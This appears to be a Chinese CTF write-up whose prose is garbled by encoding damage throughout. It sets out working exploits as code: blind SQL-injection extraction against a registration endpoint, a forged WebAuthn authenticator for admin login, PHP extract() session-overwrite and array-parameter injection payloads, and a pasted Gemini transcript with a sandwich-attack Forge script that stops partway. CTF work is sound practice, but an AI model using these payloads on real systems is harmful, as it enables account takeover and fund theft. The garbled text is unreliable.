我眼花，没看出æ¥scalar方法有什么异样。Gemini说它把field传进了oneçš„orderingå‚数，æ‰å‘ç°ç™»å½•éªŒè¯æ­¥éª¤ä¸­å‡ æ¬¡å¯¹credentials表的读å–å¯èƒ½è¯»çš„都ä¸æ˜¯åŒä¸€æ¡è®°å½•ã€‚创建å¦ä¸€æ¡å…·æœ‰ç›¸åŒcredential_id但public_keyæ›´å°çš„记录，就å¯ä»¥ç”¨è‡ªå·±æ§åˆ¶çš„密钥登录管ç†å‘˜è´¦æˆ·ã€‚至äºsign_count，åˆå§‹å€¼éƒ½æ˜¯é›¶ï¼Œæ²¡æœ‰å…³ç³»ã€‚

æ•°æ®åº“类的one方法有ç»å…¸SQL注入点，唯一利用æ¥å£æ˜¯`GET /webauthn/register?username=`。传入用户å`' or (select substr(credential_id, 1, 1) > 'P' from credentials where id = 1) or '`，报错则说æ˜ç®¡ç†å‘˜çš„credential_id首字符大äº`P`。二分得到管ç†å‘˜çš„credential_idå’Œpublic_key。

```js
for (let s = '', i = 0; i < 256; i++) {
  let c = 0
  for (let b = 0; b < 7; b++) {
    if ((await (await fetch('/webauthn/register?username=' + encodeURIComponent(`' or (select unicode(substr(credential_id, ${s.length + 1}, 1)) & ${1 << b} from credentials where id = 1) or '`))).json()).status === 'error') {
      c |= 1 << b
    }
  }
  if (!c) break
  s += String.fromCodePoint(c)
  console.log(s)
}
```

æµè§ˆå™¨çš„WebAuthn APIåªèƒ½ç”Ÿæˆçº¯éšæœºçš„密钥ID，è¦ç”ŸæˆæŒ‡å®šID的密钥需è¦è‡ªè¡Œå®ç°ã€‚我找到了一个Pythonå®ç°[SoftWebauthnDevice](https://github.com/bodik/soft-webauthn/blob/master/soft_webauthn.py)，ä¸å¤ªèƒ½ç”¨ï¼Œæ”¹æ”¹å°±æˆã€‚

Python中，id是base64ç¼–ç çš„字符串，rawId是bytes。因为JSONä¸èƒ½ç¼–ç bytes，使用JSON传输时bytes对象需è¦ä»¥base64ç¼–ç ï¼Œç»“æœidå’ŒrawId就没有区别了，看起æ¥è«å其妙的。

此处base64使用URL-safe字符集，且ä¸è¡¥é½åˆ°4字符。Python标准库中的base64.urlsafe_b64encodeåªæ˜¯æ¢äº†å­—符集，å´æ²¡æœ‰åˆ å»è¡¥ä½çš„ç­‰å·ï¼Œè¿˜å¾—自己å°ä¸€ä¸ªã€‚

```python
import json
import base64
import struct
import time
import requests
from pprint import pprint
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import ec
from fido2 import cbor
from fido2.cose import ES256
from fido2.utils import sha256

def b64encode(x: str | bytes)-> str:
    if isinstance(x, str):
        x = x.encode()
    return base64.urlsafe_b64encode(x).rstrip(b'=').decode()

AAGUID = b'\0' * 16
class SoftWebauthnDevice():
    def __init__(self, origin: str):
        self.credential_id = base64.urlsafe_b64decode('A_YlIOO3wkK4atDx6AFEQs67XLs=')
        self.sign_count = 0
        self.origin = origin

    def create(self, options):
        if {'alg': -7, 'type': 'public-key'} not in options['pubKeyCredParams']:
            raise ValueError('Requested pubKeyCredParams does not contain supported type')

        if 'attestation' in options and options['attestation'] not in [None, 'none']:
            raise ValueError('Only none attestation supported')

        self.rp_id = options['rp']['id']
        self.user_handle = options['user']['id']

        client_data = {
            'type': 'webauthn.create',
            'challenge': options['challenge'],
            'origin': self.origin,
        }

        rp_id_hash = sha256(self.rp_id.encode('ascii'))
        flags = b'\x41'  # attested_data + user_present
        sign_count = struct.pack('>I', self.sign_count)
        credential_id_length = struct.pack('>H', len(self.credential_id))
        while True:
            self.private_key = ec.generate_private_key(ec.SECP256R1())
            cose_key = cbor.encode(ES256.from_cryptography_key(self.private_key.public_key()))
            if b64encode(cose_key) < 'pQECAyYgASFYIHnavLt4MJVMclG5EFmEmA1qr_RbK8L2Xe1YLAhC5qWDIlgg6elGbeMWs78q3NnpLPbX1DletP2nrPXTXWm5fp-Lz5o':
                break
        attestation_object = {
            'authData':
                rp_id_hash + flags + sign_count
                + AAGUID + credential_id_length + self.credential_id + cose_key,
            'fmt': 'none',
            'attStmt': {},
        }

        return {
            'id': b64encode(self.credential_id),
            'rawId': b64encode(self.credential_id),
            'response': {
                'clientDataJSON': b64encode(json.dumps(client_data)),
                'attestationObject': b64encode(cbor.encode(attestation_object)),
            },
            'type': 'public-key',
        }

    def get(self, options):
        if self.rp_id != options['rpId']:
            raise ValueError('Requested rpID does not match current credential')

        self.sign_count += 1

        client_data = json.dumps({
            'type': 'webauthn.get',
            'challenge': options['challenge'],
            'origin': self.origin,
        }).encode()
        client_data_hash = sha256(client_data)

        rp_id_hash = sha256(self.rp_id.encode('ascii'))
        flags = b'\x01'
        sign_count = struct.pack('>I', self.sign_count)
        authenticator_data = rp_id_hash + flags + sign_count

        signature = self.private_key.sign(authenticator_data + client_data_hash, ec.ECDSA(hashes.SHA256()))

        return {
            'id': b64encode(self.credential_id),
            'rawId': b64encode(self.credential_id),
            'response': {
                'authenticatorData': b64encode(authenticator_data),
                'clientDataJSON': b64encode(client_data),
                'signature': b64encode(signature),
                'userHandle': self.user_handle,
            },
            'type': 'public-key',
        }


auth = SoftWebauthnDevice('http://localhost:11451')
session = requests.Session()
response = session.get(f'http://localhost:11451/webauthn/register?username={time.time()}').json()
pprint(response)
request = auth.create(response['options'])
response = session.post('http://localhost:11451/webauthn/register', json=request).json()
pprint(response)
assert response['status'] == 'success'
response = session.get('http://localhost:11451/webauthn/authenticate').json()
pprint(response)
request = auth.get(response['options'])
response = session.post('http://localhost:11451/webauthn/authenticate',json=request).json()
pprint(response)
print(session.get('http://localhost:11451/').text.rpartition('欢è¿')[2].partition('</p>')[0])
```

这个解法能åŒæ—¶è§£å†³ä¸¤ä¸ªå°é¢˜ã€‚第一å°é¢˜çš„é预期应是å•çº¯åˆ©ç”¨ç”¨æˆ·åSQL注入。虽然注册å‰åˆ¤å®šäº†ç›¸åŒçš„SQL语å¥ä¸èƒ½é€‰ä¸­è¡Œï¼Œä½†æœ‰çš„是方法令查询结æœåŠ¨æ€å˜åŒ–。通过正常途径注册一个用户å为`admin' and (select count(*) from users) > 1 or '`çš„è´¦å·ç™»å½•å³å¯çœ‹åˆ°flag。

# 第三部分

## EzLogin (PHP)

PHP是世界上最好的语言ï¼

åˆæ˜¯Apacheåˆæ˜¯nginx的，apache2.conf和默认的比较åªåŠ äº†ä¸ªæ—¥å¿—输出，æ„义ä¸æ˜ã€‚

都在åŒä¸€å°æœåŠ¡å™¨ä¸Šï¼Œç™»å½•è¿˜éè¦èµ°JSONæ¥å£ï¼Œæ•´å¥—东西就很怪。

index.php开幕雷击：

```php
<?php
require_once 'common.php';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $password = '';
    extract($_POST, EXTR_IF_EXISTS);
```

虽然ä¸æ‡‚，但看起æ¥å°±å¾ˆå“人。[extract的文档](https://www.php.net/manual/zh/function.extract.php)指出：

> **警告** ä¸è¦å¯¹ä¸å¯ä¿¡çš„æ•°æ®ä½¿ç”¨ **extract()**，类似用户输入（例如 `$_GET`ã€`$_FILES`）。

common.php里没有å˜é‡ï¼Œå…¶ä»–å˜é‡éƒ½åœ¨extract之å赋值，没有覆盖的æ„义。试了试，`$_SESSION`居然也能覆盖æ‰ï¼Œå¤ªç¦»è°±äº†ã€‚

PHPçš„`$_POST`会自动解æ数组。最离谱的是这个功能在`$_POST`的文档页åªå­—未æ，还是评论区指出的。这样，`POST /`就能篡改session，用用户2作为管ç†å‘˜ç™»è¿›ç³»ç»Ÿï¼š

```js
f = new FormData
f.set('_SESSION[id]', 2)
f.set('_SESSION[role]', 'admin')
fetch('/', {body: f, method: 'POST'})
```

åªæ˜¯ä»¥è¿™ç§æ–¹å¼ç™»å½•çš„è¯ï¼Œä¸ç®¡æ˜¯å“ªä¸ªç”¨æˆ·ï¼Œstate都是0，需è¦å…ˆæ¿€æ´»æ‰èƒ½è§åˆ°flag。

å¦ä¸€ä¸ªä½¿ç”¨`$_SESSION`之处是admin.php：

```php
    $user = getUserById($_SESSION['id']);
```

但是common.php中的getUserById函数带了类å‹æ ‡æ³¨ï¼š

```php
function getUserById(int $id)
{
```

通过`declare(strict_types=1);`å¯ç”¨ä¸¥æ ¼ç±»å‹éªŒè¯çš„è¯ï¼Œä¼ å…¥é”™è¯¯ç±»å‹çš„å‚数会抛出TypeError。å之，传入的å‚数会被éšå¼è½¬æ¢ï¼ç±»å‹æ ‡æ³¨æ˜¾è‘—å½±å“语义，在拥有æ¸è¿›å¼ç±»å‹ç³»ç»Ÿçš„语言中å±å®ç½•è§ã€‚因此，在getUserByIdå’ŒactivateUser函数中无法å®è¡ŒSQL注入。

userLogin函数没有标æ˜å‚æ•°ç±»å‹ï¼Œæ­£å¸¸ä¼ å…¥çš„也当是字符串，å¯ä»¥æ³¨å…¥ï¼Œä½†index.php中的唯一调用点在调用å‰ç”¨æ­£åˆ™è¡¨è¾¾å¼éªŒè¯äº†å…¶ä¸­æ²¡æœ‰ç‰¹æ®Šå­—符。

```php
        if (preg_match('/[^\w]/', $username) or preg_match('/[^\w]/', $password)) {
            throw new Exception("用户å和密ç åªèƒ½åŒ…å«å­—æ¯ã€æ•°å­—和下划线ï¼");
        }
        $login_res = userLogin($username, $password);
```

注æ„到之å‰æ交的仅包å«`_SESSION`数组的请求并没有返å›ç±»å‹å¼‚常，甚至顺利通过了特殊字符验è¯ã€‚测试表æ˜ï¼ŒNULL会在传入preg_matchæ—¶éšå¼è½¬æ¢æˆç©ºå­—符串。

åŒæ ·æ¥è‡ª`$_POST`的用户å和密ç ä¹Ÿå¯ä»¥æ˜¯æ•°ç»„。传入数组会如何呢？试了一下，也能通过验è¯ï¼è¿™æ˜¯å› ä¸ºæ— è®ºæ•°ç»„中的内容是什么，都会被转æ¢æˆå­—符串`'Array'`，和`[object Object]`ä¸åˆ†ä¼¯ä»²ã€‚å¦å¤–，数组是键å为整数字符串的字典，也是PHPå’ŒJS共享的底层逻辑。

而http_build_query则正常æ¥å—数组å‚数，产生类似`arr%5B0%5D=a&arr%5B1%5D=b`的查询字符串。db_class.php解æURLå‚数时丢弃了å‚æ•°å，因此å•å…ƒç´ æ•°ç»„得以绕过正则校验而通å‘æ¥å£ã€‚

```js
f = new FormData
f.set('username[0]', '114514')
f.set('password[0]', "' or id = 2 or '")
fetch('/', {body: f, method: 'POST'})
```

通过此法更新用户2çš„state为1å，å†ç”¨å‰è¿°æ–¹æ³•è¦†ç›–会è¯ï¼Œä»¥ç®¡ç†å‘˜ç”¨æˆ·2的身份登录admin.phpå³å¯çœ‹åˆ°flag。

## SandwichMe (Ethereum)

这是赛中第三é“放出的区å—链题。ä¸å‰ä¸¤é¢˜ä¸åŒï¼Œè¿™é¢˜é¢˜ç›®æ–‡å­—带ç€æ•™ç¨‹é“¾æ¥ï¼Œé¢˜ç›®é™„件带ç€è‡ªè¿°æ–‡æ¡£ï¼Œè¿˜æœ‰è¿›ä¸€æ­¥æ”¾å‡ºçš„æ示，所以这é“题应该是区å—链入门题。

虽然是入门题，å¯ä¸ºä»€ä¹ˆè§£å‡ºäººæ•°æ¯”ç†åº”更难的SyncWithMe还少，甚至远少äºé›†äºŒè¿›åˆ¶é€†å‘ã€éšæœºæ•°é¢„测ã€æ ˆæº¢å‡ºåˆ©ç”¨äºä¸€ä½“çš„GuessMaster呢？

æ ¹æ®æˆ‘æ­¤å‰å‚加过的两届USTC Hackergame的体验，å³ä½¿åƒ24年《链上转账助手》第1å°é¢˜é‚£æ ·ç®€å•åˆ°åªéœ€ä¸Šä¼ ä¸€ä¸ªç©ºåˆçº¦çš„字节ç ï¼Œè§£å‡ºäººæ•°ä¾æ—§å°‘äºä¸€äº›å¹¶ä¸ç®€å•çš„web题。

è¿™å¯èƒ½æ˜¯å› ä¸ºå¯¹å¤§éƒ¨åˆ†é€‰æ‰‹æ¥è¯´ï¼ŒåŒºå—链是一个全新的领域，在其中会é‡åˆ°çš„问题就跟ä»é›¶å¼€å§‹å­¦ç½‘络编程一样：åˆçº¦åœ°å€æ˜¯ä»€ä¹ˆï¼Ÿï¼ˆIP地å€æ˜¯ä»€ä¹ˆï¼Ÿï¼‰äº¤æ˜“是什么？（请求是什么？）ABI是什么？（HTTPå议是什么？）RPC是什么（API端点是什么？）è¦å¦‚何以给定å‚数调用åˆçº¦ï¼Ÿï¼ˆè¦ç”¨ä»€ä¹ˆå·¥å…·å‘起指定内容的请求？）智能åˆçº¦ä¼šä¿å­˜ä»€ä¹ˆçŠ¶æ€ï¼Ÿï¼ˆæœåŠ¡å™¨ä¼šä¿å­˜ä»€ä¹ˆçŠ¶æ€ï¼Ÿï¼‰MEV bot是什么？（爬虫是什么？）如何调试智能åˆçº¦ï¼Ÿï¼ˆå¦‚何调试æœåŠ¡ç«¯ç¨‹åºï¼Ÿï¼‰ä¸ºä»€ä¹ˆæ¨¡æ‹Ÿæ‰§è¡Œå’Œé“¾ä¸Šæ‰§è¡Œç»“æœä¸ä¸€æ ·ï¼Ÿï¼ˆä¸ºä»€ä¹ˆæœ¬åœ°è°ƒè¯•æ˜¯å¥½çš„，å‘布到生产ç¯å¢ƒå°±å´©äº†ï¼Ÿï¼‰è¿˜æœ‰æœ€å…³é”®çš„问题：区å—链和传统网络到底有什么区别？

å°±è¿ç™»å½•æ¯”赛平å°éƒ½éœ€è¦ä½¿ç”¨æµè§ˆå™¨ï¼Œæœ€ç›´è§‚最强大的网页调试工具åªéœ€è¦æŒ‰ä¸‹F12就能å¯åŠ¨â€”—ä¸å¦‚此普åŠçš„网络编程ä¸åŒçš„是，一般选手æ¥è§¦åŒºå—链的机会少得多。事å®ä¸Šï¼ŒCTF是我唯一æ¥è§¦åˆ°åŒºå—链的场åˆäº†ã€‚

相比以å‰ï¼ŒFoundryçš„æ¨å‡ºå·²ç»ä»¤æ“作方便ä¸å°‘。å³ä½¿å¦‚此，光æ­ç¯å¢ƒå°±è¶³ä»¥åŠé€€ï¼Œéšä¹‹è€Œæ¥çš„æµ·é‡æ¦‚念狂暴轰入，被分布å¼çš„分布å¼é‡‘è文档领得晕头转å‘，还有金è领域微妙的英语è¯æ±‡ï¼Œè¯»å®Œé¢˜ç›®å·²æ²¡æœ‰å‰è¿›çš„动力了。走到这一步的选手，急需的或许åªæ˜¯ä¸€é“ç†æ™ºæ£€å®šçº§åˆ«çš„题目。

---

本题的解法并ä¸å¤æ‚，Gemini给出了完全正确的æ€è·¯ï¼ˆè™½ç„¶ç®—é£äº†ï¼‰å’Œå‡ ä¹èƒ½è¿è¡Œçš„代ç ã€‚

<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>
<blockquote>

**User**: This is a CTF challenge about Decentralized Finance. In a private blockchain, a number of smart contracts have been set up. You can call the `Challenge` contract through a remote RPC. Your goal is to make `isSolved` in `Challenge` return true.

Chall.sol:

```solidity
pragma solidity ^0.8.13;

import {Coin} from "./Coin.sol";
import {IUniswapV2Pair} from "lib/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import {IUniswapV2Router02} from "lib/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
import {IUniswapV2Factory} from "lib/v2-core/contracts/interfaces/IUniswapV2Factory.sol";

import {MevBot} from "./MevBot.sol";

import {Script, console} from "forge-std/Script.sol";


contract Challenge {
    address public immutable PLAYER;
    Coin public immutable USDC;
    Coin public immutable MUSKCOIN;
    IUniswapV2Factory public immutable FACTORY = IUniswapV2Factory(0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f);
    IUniswapV2Router02 public immutable ROUTER = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
    IUniswapV2Pair public immutable PAIR;
    MevBot public immutable MEV_BOT;
    IUniswapV2Pair public immutable PAIR_DOGE;
    Coin public immutable DOGECOIN;

    
    constructor(address player) {
        PLAYER = player;
        // deploy stablecoin, muskcoin
        USDC = new Coin("StableCoin", "USDC");
        MUSKCOIN = new Coin("MuskCoin", "MUSK");

        DOGECOIN = new Coin("DOGECOIN", "DOGE");

        // mint coin to challenge contract
        USDC.mint(address(this), 3100 ether);
        // mint coin to challenge contract
        MUSKCOIN.mint(address(this), 2100 ether);
        DOGECOIN.mint(address(this), 2100 ether);
        // create pair
        PAIR = IUniswapV2Pair(FACTORY.createPair(address(USDC), address(MUSKCOIN)));

        // add liquidity
        USDC.approve(address(ROUTER), 1000 ether);
        MUSKCOIN.approve(address(ROUTER), 1000 ether);
        ROUTER.addLiquidity(address(USDC), address(MUSKCOIN), 1000 ether, 1000 ether, 0, 0, address(this), block.timestamp);

        MEV_BOT = new MevBot(address(this));
        USDC.transfer(address(MEV_BOT), 1000 ether);
        MUSKCOIN.transfer(address(MEV_BOT), 1000 ether);
        DOGECOIN.transfer(address(MEV_BOT), 1000 ether);
        USDC.transfer(PLAYER, 100 ether);
        MUSKCOIN.transfer(PLAYER, 100 ether);
        DOGECOIN.transfer(PLAYER, 100 ether);

        // create pair
        PAIR_DOGE = IUniswapV2Pair(FACTORY.createPair(address(USDC), address(DOGECOIN)));

        // add liquidity
        USDC.approve(address(ROUTER), 1000 ether);
        DOGECOIN.approve(address(ROUTER), 1000 ether);
        ROUTER.addLiquidity(address(USDC), address(DOGECOIN), 1000 ether, 1000 ether, 0, 0, address(this), block.timestamp);

        MEV_BOT.addToken(address(USDC));
        MEV_BOT.addToken(address(MUSKCOIN));
        MEV_BOT.addToken(address(DOGECOIN));

    }


    function isSolved() public view returns (bool) {
        return USDC.balanceOf(PLAYER) >= 1000 ether;
    }
    
}
```

Coin.sol:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


contract Coin is ERC20 {

    address public immutable OWNER;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        OWNER = msg.sender;
    }

    function mint(address to, uint256 amount) public {
        require(msg.sender == OWNER);
        _mint(to, amount);
    }
}
```

MevBot.sol:

```solidity
pragma solidity ^0.8.9;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";

import "lib/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import "lib/v2-core/contracts/interfaces/IUniswapV2Factory.sol";
import "lib/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";

import "forge-std/console.sol";

interface Token {
    function decimals() external view returns (uint8);
}

interface MuskMoneyMinter {
    function mint(address recipient, uint amount) external;

    function burn(uint256 amount) external;

    function burnFrom(address account, uint256 amount) external;
}

// MevBot æä¾›swap, withdraw, deposit 功能
contract MevBot {
    address public immutable OWNER;
    IUniswapV2Router01 public immutable ROUTER = IUniswapV2Router01(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
    // 创建一个列表，用äºå­˜å‚¨åˆæ³•çš„token
    address[] public tokens;

    modifier onlyOwner() {
        require(msg.sender == OWNER, "Not owner");
        _;
    }
    constructor(address _owner) {
        OWNER = _owner;
    }

    function withdraw(address token, uint256 amount) external {
        if (token == address(0)) {
            payable(OWNER).transfer(amount);
        } else {
            ERC20(token).transfer(OWNER, amount);
        }
    }

    function swap(address tokenIn, address tokenOut, uint256 amountIn) external {
        // 检查tokenIn是å¦åœ¨åˆ—表中
        bool isInList = false;
        for (uint i = 0; i < tokens.length; i++) {
            if (tokens[i] == tokenIn) {
                isInList = true;
                break;
            }
        }
        require(isInList, "Token not in list");
        // 检查tokenOut是å¦åœ¨åˆ—表中
        isInList = false;
        for (uint i = 0; i < tokens.length; i++) {
            if (tokens[i] == tokenOut) {
                isInList = true;
                break;
            }
        }
        require(isInList, "Token not in list");

        address[] memory path = new address[](2);
        path[0] = tokenIn;
        path[1] = tokenOut;
        ERC20(tokenIn).approve(address(ROUTER), amountIn);

        ROUTER.swapExactTokensForTokens(amountIn, 0, path, address(this), block.timestamp);
    }

    function swap2(address tokenIn, address tokenOut, uint256 amountOut) external {
        bool isInList = false;
        for (uint i = 0; i < tokens.length; i++) {
            if (tokens[i] == tokenIn) {
                isInList = true;
                break;
            }
        }   
        require(isInList, "Token not in list");
        isInList = false;
        for (uint i = 0; i < tokens.length; i++) {
            if (tokens[i] == tokenOut) {
                isInList = true;
                break; 
            }
        }
        require(isInList, "Token not in list");

        address[] memory path = new address[](2);
        path[0] = tokenIn;
        path[1] = tokenOut;
        ERC20(tokenIn).approve(address(ROUTER), amountOut);

        ROUTER.swapTokensForExactTokens(amountOut, type(uint256).max, path, address(this), block.timestamp);
    }

    function addToken(address token) external onlyOwner {
        tokens.push(token);
    }
}
```

**Model thoughts**: Let's break down the thought process for solving this CTF challenge.

1.  **Understand the Goal:** The primary objective is to make the `isSolved()` function in the `Challenge` contract return `true`. This means the `PLAYER` address must hold at least 1000 ether (1000 * 10^18) of `USDC`.

2.  **Analyze the Setup:**
    *   **Contracts:** We have `Challenge`, `Coin` (ERC20), `MevBot`, and standard Uniswap V2 contracts (`Factory`, `Router`, `Pair`).
    *   **Tokens:** `USDC`, `MUSKCOIN`, `DOGECOIN`. All are standard ERC20 tokens created using `Coin.sol`. They have an `OWNER` (the `Challenge` contract deployer, which is *not* the `PLAYER`) who can mint tokens.
    *   **Initial State:**
        *   `PLAYER` starts with 100 ether each of `USDC`, `MUSKCOIN`, and `DOGECOIN`.
        *   `Challenge` contract holds some initial tokens (3100 USDC, 2100 MUSK, 2100 DOGE) but uses most of it for liquidity and transfers.
        *   `MevBot` holds 1000 ether each of `USDC`, `MUSKCOIN`, and `DOGECOIN`.
        *   Two Uniswap V2 pairs are created: USDC/MUSKCOIN and USDC/DOGECOIN.
        *   Both pairs are initialized with 1000 ether of each token (1000 USDC / 1000 MUSK and 1000 USDC / 1000 DOGE). This sets the initial price to 1:1 for both pairs.
        *   `MevBot` has a list of "allowed" tokens: `USDC`, `MUSKCOIN`, `DOGECOIN`.

3.  **Identify Player Capabilities:**
    *   The `PLAYER` can interact with any deployed contract, including `Challenge`, `MevBot`, `USDC`, `MUSKCOIN`, `DOGECOIN`, `ROUTER`, and the `PAIR` contracts.
    *   The `PLAYER` *cannot* call `onlyOwner` functions (like `mint` on `Coin` or `addToken`/`withdraw` on `MevBot`).
    *   The `PLAYER` *can* call public/external functions like `transfer`, `approve`, `swapExactTokensForTokens`, `swapTokensForExactTokens` (on the Router), and crucially, `swap` and `swap2` on the `MevBot`.

4.  **Analyze the `MevBot`:**
    *   `MevBot` acts as an intermediary for swaps.
    *   It holds significant token balances (1000 of each).
    *   It has `swap` and `swap2` functions that use the Uniswap Router.
    *   Crucially, these swap functions perform checks: `tokenIn` and `tokenOut` *must* be in the `tokens` list.
    *   The `swap` function takes `amountIn` and swaps for *whatever* `amountOut` the pool provides.
    *   The `swap2` function takes `amountOut` and tries to swap *whatever* `amountIn` is needed to get that exact `amountOut`.
    *   Both functions approve the `ROUTER` before swapping.
    *   The `withdraw` function can only be called by the `OWNER` (the `Challenge` contract).

[…]

**Model**: ```` ```python ````

Exploit Strategy: Sandwich Attack on MevBot using Uniswap Pools

1. MevBot holds 1000 USDC, 1000 MUSK, 1000 DOGE.
2. Player holds 100 USDC, 100 MUSK, 100 DOGE.
3. Pools USDC/MUSK and USDC/DOGE exist with 1000/1000 liquidity each (1:1 price).
4. Goal: Player USDC >= 1000 ether.

The attack leverages the MevBot's `swap` function and its large token holdings
to manipulate pool prices, allowing the player to perform profitable arbitrage.

Steps:

1. Trigger MevBot Swap 1: Make `MevBot` swap all its 1000 MUSK for USDC using `MevBot.swap(MUSK, USDC, 1000e18)`.
   - This floods the USDC/MUSK pool with MUSK and removes USDC, drastically lowering the MUSK price relative to USDC.
   - MevBot gains ~499 USDC and now has ~1499 USDC, 0 MUSK, 1000 DOGE.
   - Pool USDC/MUSK state: ~501 USDC / 2000 MUSK.
2. Player Arbitrage: Swap the player's 100 DOGE for the now cheap MUSK.
   - Use the `Router` directly: `swapExactTokensForTokens([DOGE, USDC, MUSK])`.
   - 100 DOGE -> ~90.6 USDC (using USDC/DOGE pool 1000/1000).
   - ~90.6 USDC -> ~306.5 MUSK (using manipulated USDC/MUSK pool 501/2000).
   - Player now has 100 USDC, 100 + 306.5 = 406.5 MUSK, 0 DOGE.
   - Pool USDC/MUSK state: ~591.6 USDC / 1693.5 MUSK.
3. Trigger MevBot Swap 2: Make `MevBot` swap most of its USDC back into MUSK using `MevBot.swap(USDC, MUSK, amount)`.
   - Use a large amount close to the MevBot's USDC balance (e.g., 1498 ether out of ~1499).
   - This removes almost all MUSK liquidity from the pool and floods it with USDC.
   - MevBot gains a large amount of MUSK (~1497.8) but spends almost all its USDC.
   - Pool USDC/MUSK state: ~2090 USDC / ~195.7 MUSK. The price of MUSK is now extremely high relative to USDC.
4. Player Profit: Swap the player's accumulated ~406.5 MUSK back to USDC.
   - Use the `Router` directly: `swapExactTokensForTokens([MUSK, USDC])`.
   - Since the pool has very little MUSK (~195.7) and a lot of USDC (~2090), selling MUSK yields a very high return per token.
   - Even though the player has more MUSK (406.5) than the pool's MUSK reserves (195.7), the `swapExactTokensForTokens` function works by calculating the output based on the input amount and pre-swap reserves. The player sells their 406.5 MUSK into the pool.
   - 406.5 MUSK -> Significant amount of USDC (expected ~890+ USDC profit from this step alone).
   - Player's final USDC balance should exceed 100 (initial) + 890 = 990, hopefully reaching the 1000 target.

Implementation using forge script:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Challenge} from "../src/Chall.sol";
import {Coin} from "../src/Coin.sol";
import {MevBot} from "../src/MevBot.sol";
import {IUniswapV2Router02} from "lib/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
import {IUniswapV2Pair} from "lib/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Solve is Script {
    // Ensure CHALLENGE_CONTRACT and PLAYER_PRIVATE_KEY (or DEPLOYER_PRIVATE_KEY) are set in your .env file
    Challenge challenge = Challenge(payable(vm.envAddress("CHALLENGE_CONTRACT")));
    Coin USDC = challenge.USDC();
    Coin MUSKCOIN = challenge.MUSKCOIN();
    Coin DOGECOIN = challenge.DOGECOIN();
    MevBot mevBot = challenge.MEV_BOT();
    IUniswapV2Router02 router = challenge.ROUTER();
    IUniswapV2Pair pairMusk = challenge.PAIR();
    IUniswapV2Pair pairDoge = challenge.PAIR_DOGE();

    // Use the deployer's private key from the environment for signing transactions
    uint256 playerPrivateKey = vm.envUint("PLAYER_PRIVATE_KEY");
    address player = vm.addr(playerPrivateKey);

    function run() external {
        vm.startBroadcast(playerPrivateKey); // Start broadcasting transactions signed by the player

        address usdcAddr = address(USDC);
        address muskAddr = address(MUSKCOIN);
        address dogeAddr = address(DOGECOIN);
        address routerAddr = address(router);
        address mevBotAddr = address(mevBot);

        uint256 initialPlayerDoge = DOGECOIN.balanceOf(player);
        require(initialPlayerDoge > 0, "Player has no DOGE to start");

        console.log("Player Address: %s", player);
        console.log("Initial Player USDC: %s", USDC.balanceOf(player) / 1 ether);
        console.log("Initial Player MUSK: %s", MUSKCOIN.balanceOf(player) / 1 ether);
        console.log("Initial Player DOGE: %s", initialPlayerDoge / 1 ether);
        console.log("Initial Bot USDC: %s", USDC.balanceOf(mevBotAddr) / 1 ether);

        // --- Step 1: MevBot dumps MUSK ---
        console.log("Step 1: MevBot swaps 1000 MUSK for USDC...");
        // Any address can call the MevBot's swap function
        mevBot.swap(muskAddr, usdcAddr, 1000 ether);
        console.log(" -> Bot USDC balance after swap 1: %s", USDC.balanceOf(mevBotAddr) / 1 ether);
        (uint resM0, uint resM1,) = pairMusk.getReserves();
        console.log(" -> Pair MUSK/USDC Reserves after swap 1: %s / %s", resM0/1e18, resM1/1e18); // Order depends on token0/token1

        // --- Step 2: Player Arbitrages DOGE for cheap MUSK ---
        console.log("Step 2: Player swaps %s DOGE for MUSK via USDC...", initialPlayerDoge / 1 ether);
        // Approve Router to spend player's DOGE
        DOGECOIN.approve(routerAddr, type(uint256).max); // Approve max for simplicity

        address[] memory pathDogeMusk = new address[](3);
        pathDogeMusk[0] = dogeAddr;
        pathDogeMusk[1] = usdcAddr;
        pathDogeMusk[2] = muskAddr;

        uint256 muskBeforeArb = MUSKCOIN.balanceOf(player);
        router.swapExactTokensForTokens(
            initialPlayerDoge, // amountIn = all player's DOGE
            0, // amountOutMin
            pathDogeMusk,
            player, // recipient
            block.timestamp // deadline
        );
        uint256 playerMuskAfterArb = MUSKCOIN.balanceOf(player);
        uint256 muskGained = playerMuskAfterArb - muskBeforeArb;
        console.log(" -> Player MUSK gained from arbitrage: %s", muskGained / 1 ether);
        console.log(" -> Player Total MUSK: %s", playerMuskAfterArb / 1 ether);

        // --- Step 3: MevBot buys back MUSK with most of its USDC ---
        console.log("Step 3: MevBot swaps USDC back for MUSK...");
        uint256 botUsdcBalance = USDC.balanceOf(mevBotAddr);
        // Swap slightly less than balance to avoid potential rounding/off-by-one reverts
        uint256 amountUsdcToSwap = botUsdcBalance - 1 ether;
        require(botUsdcBalance > 1 ether, "Bot has insufficient USDC for swap 2");
        console.log(" -> Bot swapping %s USDC for MUSK", amountUsdcToSwap / 1 ether);

        mevBot.swap(usdcAddr, muskAddr, amountUsdcToSwap);
        console.log(" -> Bot MUSK balance after swap 2: %s", MUSKCOIN.balanceOf(mevBotAddr) / 1 ether);
        (resM0, resM1,) = pairMusk.getReserves();
        console.log(" -> Pair MUSK/USDC Reserves after swap 2: %s / %s", resM0/1e18, resM1/1e18);

        // --- Step 4: Player sells accumulated MUSK at inflated price ---
